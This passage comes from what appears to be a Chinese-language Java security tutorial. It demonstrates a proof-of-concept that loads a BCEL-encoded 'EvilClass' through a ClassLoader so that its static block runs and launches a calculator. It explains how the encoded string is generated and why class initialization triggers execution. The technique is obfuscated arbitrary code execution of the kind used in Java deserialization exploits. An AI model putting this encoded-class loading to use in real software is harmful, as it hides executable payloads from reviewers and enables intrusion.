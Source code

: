 ```java
        Class<?> evilClass = new ClassLoader().loadClass("$$BCEL$$" + "$l$8b$I$A$A$A$A$A$A$AeP$cbN$c2$40$U$3dS$w$85ZAA$7c$bfX$89$$$ec$c6$j$c4$N$c1$c4X$l$R$a3$eb$e98$c1$c1$da$9a2$Y$ff$c8$b5$h5$$$fc$A$3f$cax$3b$S$d4$d8d$ee$e9$3dw$ce9$bd$fd$f8$7c$7b$H$b0$8b$ba$L$H$b3$$j$98$x$60$3e$c3$F$H$8b$O$96$i$y3$e4$5b$wVz$8f$n$d7$d8$ba$60$b0$db$c9$95d$u$H$w$96$c7$c3$dbP$a6$e7$3c$8c$88$a9$E$89$e0$d1$FOU$d6$8fH$5b_$ab$B$c3t$Q$K$Z$f9$9d$7b$V$b5$p$3e$Y4$Z$K$z$R$8d$8c$a7$ba$9a$8b$9b$p$7egD$U$cd$e0v$93a$w$e4$be$caLJc$ddN$9f$dfs$P$F$U$j$acxX$c5$gEP$aa$f0$b0$8e$N$86j6$f7U$e2$l$9ct$k$84$bc$d3$w$89I$ff7$9c$3e$c7$5c$8bx$dc$f3O$c2$be$U$9aa$e6$87$3a$h$c6Z$ddR$ae$db$93z$dc$d4$g$5b$c1$bf$3b$b4$87$z$l$a4$60$d8l$fc$9avu$aa$e2$5e$f3$b7$e04M$84$a4$c5QG$9e$fev$f6X$60$d9$sT$5d$ea$7cBF8$b1$fd$C$f6d$c6$93T$f3$df$q$3c$aa$de$e8$7d$K$r$c2$C$cac$f1$a11$DJ$af$b0$w$b9g$d8$97$8f$b0$P$9f$MW$q$dd$Er$c6$adD$I$TZ$q$X$d7$b8Zt$a6$e98$b0$C$H3$mQ$c5$d0$d5$_$5dI$Y$93$n$C$A$A");
        evilClass.newInstance();
    }
}
```

这个POC中`genBCELClassEncode`是用来生成下边那一串非常奇怪的字符串的，`loadClass`用来把奇怪字符串转换为对应的`Class`，并调用`Class`中的默认构造方法，最终触发`EvilClass`中`static`代码块中的内容。

运行看看效果。

![image-20250311102942384](./assets/image-20250311102942384.png)

如果运行`genBCELClassEncode`方法，这将会生成我们刚才使用的那个字符串。

同时计算器也会被执行，这是因为`Class.forName`默认会初始化该类，也就是对应着`forName0(className, true, ClassLoader.getClassLoader(caller), caller)`，这段代码，其中`initialize=true`表示要初始化Class，此时`static`代码块就会被执行。
